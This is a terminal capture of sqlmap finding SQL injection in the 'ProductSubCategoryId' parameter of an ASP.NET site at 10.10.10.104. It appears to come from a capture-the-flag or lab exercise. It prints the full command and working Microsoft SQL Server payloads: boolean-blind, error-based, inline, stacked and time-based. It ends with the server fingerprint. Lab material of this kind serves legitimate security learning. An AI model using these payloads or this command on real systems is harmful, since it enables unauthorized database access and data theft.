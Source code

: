 ```
root@darkisland:~# sqlmap -u https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=1 --dbms=mssql --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.8#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 19:46:05

[19:46:05] [INFO] testing connection to the target URL
[19:46:05] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[19:46:05] [CRITICAL] heuristics detected that the target is protected by some kind of WAF/IPS/IDS
do you want sqlmap to try to detect backend WAF/IPS/IDS? [y/N] 
[19:46:07] [WARNING] dropping timeout to 10 seconds (i.e. '--timeout=10')
[19:46:07] [INFO] testing if the target URL content is stable
[19:46:07] [WARNING] target URL content is not stable. sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] 
[19:46:08] [INFO] searching for dynamic content
[19:46:08] [INFO] dynamic content marked for removal (1 region)
[...]
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=1 AND 1298=1298

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=1 AND 1726 IN (SELECT (CHAR(113)+CHAR(107)+CHAR(98)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (1726=1726) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(107)+CHAR(98)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (6760=6760) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(122)+CHAR(113)+CHAR(113))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=1;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=1 WAITFOR DELAY '0:0:5'
---
[19:46:37] [INFO] testing Microsoft SQL Server
[19:46:38] [INFO] confirming Microsoft SQL Server
[19:46:38] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2016
web application technology: ASP.NET 4.0.30319, ASP.NET, Microsoft IIS 10.0
back-end DBMS: Microsoft SQL Server 2016
```